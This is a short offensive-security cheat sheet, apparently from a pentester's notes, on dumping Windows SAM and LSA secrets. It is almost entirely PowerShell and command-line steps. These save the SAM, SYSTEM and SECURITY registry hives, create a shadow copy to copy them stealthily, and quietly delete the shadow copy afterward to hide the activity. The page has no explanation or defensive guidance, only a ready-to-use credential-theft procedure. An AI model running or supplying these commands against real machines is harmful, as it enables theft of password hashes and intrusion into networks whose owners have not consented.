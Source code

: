 # SAM & LSA secrets

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#secrets-dump" %}

### Dump <a href="#theory" id="theory"></a>

```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```

### Hidden dump

```powershell
wmic shadowcopy call create Volume='C:\'
```

list avaible shadow copies&#x20;

```powershell
vssadmin.exe list shadows
```

copy registry keys

```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\ProgramData\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\ProgramData\SECURITY
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ProgramData\SYSTEM
```

remove shadow copy

```powershell
vssadmin.exe delete shadows /shadow={UUID} /quiet
```

